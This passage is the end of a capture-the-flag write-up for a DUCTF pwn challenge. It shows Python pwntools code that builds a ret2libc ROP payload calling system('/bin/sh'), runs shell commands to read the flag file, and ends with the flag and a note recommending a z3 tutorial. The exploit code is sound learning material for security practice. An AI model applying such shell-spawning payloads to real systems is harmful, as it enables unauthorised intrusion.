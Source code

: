 ```python
print("binsh offset : " , hex(binsh_offset))
binsh_address = binsh_offset + system_address - system_offset
print("/bin/sh string found at ", hex(binsh_address))

p.recvrepeat(0.5)
payload = b"0101000000001000000101010000101000000001000000000101000110100000000100000010101000000100000000100100001010100000001000000010101000101000000000000000101010010101000000000000000001010100010101000000AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
payload += p64(pop_rdi)
payload += p64(binsh_address)
payload += p64(ret)
payload += p64(system_address)

#pause()
p.sendline(payload)
print(p.recvrepeat(0.5))
p.sendline("ls -al")
print(p.recvrepeat(0.5))
p.sendline("cat flag-pwn.txt")


p.interactive()
```

![[Pasted image 20241111175623.png]]


> [!note] Flag
> DUCTF{ez_r3t2l1bc_9b8a81cda3}

# Conclusion

I have learnt a lot from and will probably not hesitate (as much) to try z3, I hope ... Also, since this is not really a detailed guide to z3, I recommend reading this really tutorial guide from https://ericpony.github.io/z3py-tutorial/guide-examples.htm. It has a lot more information that I did not really use but it really is beginner friendly!